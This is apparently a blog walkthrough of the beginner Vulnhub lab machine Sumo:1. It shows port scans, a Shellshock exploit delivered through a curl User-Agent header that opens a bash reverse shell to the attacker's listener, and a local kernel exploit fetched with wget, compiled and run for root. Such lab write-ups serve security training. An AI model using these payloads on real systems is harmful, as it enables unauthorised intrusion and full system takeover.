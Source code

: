 ```yaml
---
date: 2020-06-17 00:36:33
layout: post
title: "Sumo Vulnhub Walkthrough"
subtitle:
description: Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners.
image: /assets/img/uploads/sumo/sumo-optimized.png
optimized_image: /assets/img/uploads/sumo/sumo-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: sumo, sumo 1 vulnhub, vulnhub, sumo vulnhub walkthrough, sumo vulnhub writeup, vulnhub sumo, infosec articles, sumo vulnhub writeup
---
```


Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners. This includes exploiting a shellshock vulnerability to get a reverse shell and then exploiting the old version kernel used by the VM to get root. I've add the IP to my hosts file, So Lets Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.16    sumo.local
```

## Inital Enumeration and User Shell

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/sumo sumo.local

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 13:06 IST
Nmap scan report for sumo.local (192.168.1.16)
Host is up (0.00060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:97:C2:5C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds
```

We have a port 80 open which displays a default web server page says that "It Works!"

<center><br>
<img src="/assets/img/uploads/sumo/port80.png">
</center>
<p align="justify">
Next I ran a gobuster scan to look for hidden directories, but didn't find anything interesting there. Then I performed a nikto scan to search for some web based vulnerabilities and found that this web server is vulnerable to <b>shellshock vulnerability.</b> </p>

```r
root@kali:~# nikto -h sumo.local
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.16
+ Target Hostname:    sumo.local
+ Target Port:        80
+ Start Time:         2020-06-16 13:11:34 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 23:25:10 2020
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3092: /cgi-bin/test/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8595 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2020-06-16 13:12:15 (GMT5.5) (41 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
If you don't know about shellshock vulnerability, I recommend reading about it <a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)">here.</a> I tested the vulnerability by running <b>id</b> command.
```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://sumo.local/cgi-bin/test/test.cgi  

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Excellent, We were able to exploit this vulnerability. Now I executed a payload to open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.6/9001 0>&1' http://sumo.local/cgi-bin/test/test.cgi  
```
I opened a netcat listner on the other terminal and we got the reverse shell.

```r
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.16] 60230
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root Shell
<p align="justify">
Getting root on this machine was quite easy and straight forward. This machine is a using an old version of kernel. There are many exploits available to escalate the privileges. One of the most famous is Dirty Cow but I won't be using it here.
</p>

```r
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

Instead I used <a href="https://www.exploit-db.com/exploits/33589"> this exploit</a> from exploitdb. I downloaded this exploit on my host machine and started a python http server and tranferred it to the target machine in the tmp directory.

```r
www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp
cd /tmp

www-data@ubuntu:/tmp$ wget http://192.168.1.6:8000/33589.c
wget http://192.168.1.6:8000/33589.c     
--2020-06-16 03:50:50--  http://192.168.1.6:8000/33589.c
Connecting to 192.168.1.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3664 (3.6K) [text/plain]         
Saving to: `33589.c'                     

     0K ...         100%  242M=0s
2020-06-16 03:50:50 (242 MB/s) - `33589.c' saved [3664/3664]
```
Then I tried to complite the exploit but it gave an error. This error can be fixed by updating the path variables using the following command:

```r
www-data@ubuntu:/tmp$ PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH   
```

This time the exploit complied without any errors, I gave the exploit executable permissions and after running the exploit, we were root!  

```r
www-data@ubuntu:/tmp$ gcc 33589.c -O2 -o exploit
gcc 33589.c -O2 -o exploit

www-data@ubuntu:/tmp$ chmod 777 exploit && ./exploit 0
chmod 777 exploit && ./exploit 0

stdin: is not a tty
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("/bin/bash")'

root@ubuntu:/tmp# cat /root/root.txt
cat /root/root.txt
{Sum0-SunCSR-2020_r001}
```
<p align="justify"> That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> </p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/MarkusM">Markus Magnusson.</a>